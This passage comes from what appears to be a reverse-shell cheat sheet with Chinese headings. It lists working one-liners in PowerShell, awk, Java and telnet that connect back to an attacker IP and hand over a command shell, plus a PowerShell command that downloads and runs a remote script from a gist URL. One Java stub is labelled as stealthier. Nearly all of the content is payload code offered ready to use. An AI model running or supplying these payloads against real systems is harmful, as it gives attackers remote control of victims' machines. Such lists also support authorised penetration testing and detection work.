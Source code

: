 ```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

### Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Java

```java
Runtime r = Runtime.getRuntime();Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'");p.waitFor();
```

#### Java 替代方案 1

```java
String host="127.0.0.1";int port=4444;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Java 替代方案 2

这更加隐蔽

```java
Thread thread = new Thread(){    public void run(){        // Reverse shell here    }}thread.start();
```

### Telnet

```bash
In Attacker machine start two listeners:nc -lvp 8080nc -lvp 8081In Victime machine run below command:telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081
```

